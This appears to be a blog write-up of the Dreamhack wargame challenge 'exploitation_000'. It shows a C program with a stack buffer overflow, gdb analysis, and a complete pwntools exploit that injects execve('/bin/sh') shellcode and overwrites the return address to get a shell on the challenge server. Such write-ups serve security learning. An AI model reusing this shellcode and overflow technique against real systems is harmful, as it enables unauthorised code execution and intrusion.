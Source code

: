 ```yaml
---
layout: post
title: "[dreamhack] exploitation_000"
comments: true
category: wargame
---
```


## checksec
<img src="/assets/img/exploitation-000/checksec.png" width="600">

Only aslr exists.

***

## C code
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    printf("buf = (%p)\n", buf);
    scanf("%141s", buf);

    return 0;
}
```

<img src="/assets/img/exploitation-000/execute.png" width="700">

We can get buf's address from printf.<br />
buf's size is 0x80(128), but binary recives 141 characters by scanf.<br />
We can send input to buf, and cause overflow.<br />

***

## Debug binary

<img src="/assets/img/exploitation-000/gdb.png" width="600">

In gdb, we can check scanf function's arguments by checking stack just before call scanf.<br />
0x8048a65 is '%141s', so buf's location is [ebp-0x80].<br />
payload will be consists of (shellcode) + dummy + SFP + RA.<br />
Scanf function can't receive '\x09, \x0a, \x0b, \x0c, \x0d, \x20', so we have to use shellcode without them.<br />
Dummy's size will be 0x80 - len(shellcode).<br />
SFP also will be overwrite with dummy.<br />
RA will be overwrite with buf's addr.(location of shellcode)

***

## Ex code

```python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

shellcode = '\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80'

#r = process('./basic_exploitation_000')
r = remote('host1.dreamhack.games', 21863)

r.recvuntil(b'buf = (')
bufAddr = int(r.recvn(10), 16)
payload = shellcode.encode() + b'A' * (0x80 - len(shellcode)) + b'B' * 0x4 + p32(bufAddr)


r.send(payload)

r.interactive()
```